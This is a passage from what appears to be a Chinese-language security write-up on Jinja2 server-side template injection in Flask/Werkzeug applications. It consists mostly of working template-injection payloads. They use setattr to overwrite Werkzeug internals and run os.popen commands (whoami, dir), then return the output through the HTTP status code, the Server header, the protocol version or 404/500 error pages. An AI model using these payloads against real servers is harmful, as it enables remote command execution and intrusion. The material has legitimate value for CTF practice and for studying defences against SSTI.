

那么我们改变default\_status的值就可以

```
{{lipsum.__globals__.__builtins__.setattr(g.get["__globals__"].sys.modules.werkzeug.wrappers.Response,"default_status",lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read())}}

```

由于输出有中文需要base64编码

```
{{lipsum.__globals__.__builtins__.setattr(g.get["__globals__"].sys.modules.werkzeug.wrappers.Response,"default_status",lipsum.__globals__.__builtins__.__import__('base64').b64encode(lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read().encode()).decode())}}

```



## 总结

Server头字段外带  
[Jinja2-SSTI通过Server请求头带出命令回显 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/15780?time__1311=GqjxnQGQDQO4l6zG7DymKH0QL3AIo%3D43x#toc-4)

`setattr` 是一个内置函数，用于设置对象的属性值。它的签名是 **`setattr(obj, name, value)`**。

```
{{g.pop.__globals__.__builtins__.setattr(g.pop.__globals__.sys.modules.werkzeug.serving.WSGIRequestHandler,"server_version",g.pop.__globals__.__builtins__.__import__('os').popen('whoami').read())}}

{{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.werkzeug.serving.WSGIRequestHandler,"server_version",lipsum.__globals__.__builtins__.__import__('os').popen('echo%20success').read())}}

```

* 使用 `setattr` 函数设置 `werkzeug.serving.WSGIRequestHandler` 类的 `server_version` 属性。

http协议回显

```
{{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.werkzeug.serving.WSGIRequestHandler,"protocol_version",lipsum.__globals__.__builtins__.__import__('os').popen('echo%20success').read())}}

```

状态码回显  
请求头无法返回非ascii码字符，即我们需要使用**编码**来输出命令执行的结果。

```
{{url_for.__globals__.__builtins__['setattr'](lipsum.__spec__.__init__.__globals__.sys.modules.werkzeug.wrappers.Response,'default_status',url_for.__globals__.__builtins__.__import__('base64').b64encode(url_for.__globals__.__builtins__['__import__']('os').popen('dir').read().encode()).decode())}}

```

错误页面回显

比如：500状态码

```
{{url_for.__globals__.__builtins__['setattr'](lipsum.__spec__.__init__.__globals__.sys.modules.werkzeug.exceptions.InternalServerError,'description',url_for.__globals__.__builtins__['__import__']('os').popen('dir').read())}}

```

404状态

```
{{url_for.__globals__.__builtins__['setattr'](lipsum.__spec__.__init__.__globals__.sys.modules.werkzeug.exceptions.NotFound,'description',url_for.__globals__.__builtins__['__import__']('os').popen('dir').read())}}

```
